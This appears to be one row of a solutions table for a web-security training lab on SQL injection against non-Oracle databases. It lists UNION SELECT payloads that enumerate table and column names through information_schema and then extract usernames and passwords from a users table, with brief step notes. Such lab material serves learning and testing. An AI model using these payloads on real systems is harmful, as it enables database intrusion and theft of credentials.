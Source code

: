 |33    |SQL injection attack, listing the database contents on non-Oracle databases                                              |'+UNION+SELECT+table_name,NULL+FROM+information_schema.tables--  '+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users_zoudta'--                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |Database contents section in SQL cheatsheet. First, find out all the table names: '+UNION+SELECT+table_name,NULL+FROM+information_schema.tables-- Then, find out all the column names from the table that has user information. In this case, users_zoudta. '+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users_zoudta'-- Finally, get the username and password information. '+UNION+SELECT+username_unlnrh,password_mcxvgq+FROM+users_zoudta-- This is using the same sort of double column format, and is simple once the enum has been done on the database to identify the table and columns that info should be extracted from.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |Practitioner, SQLi                          |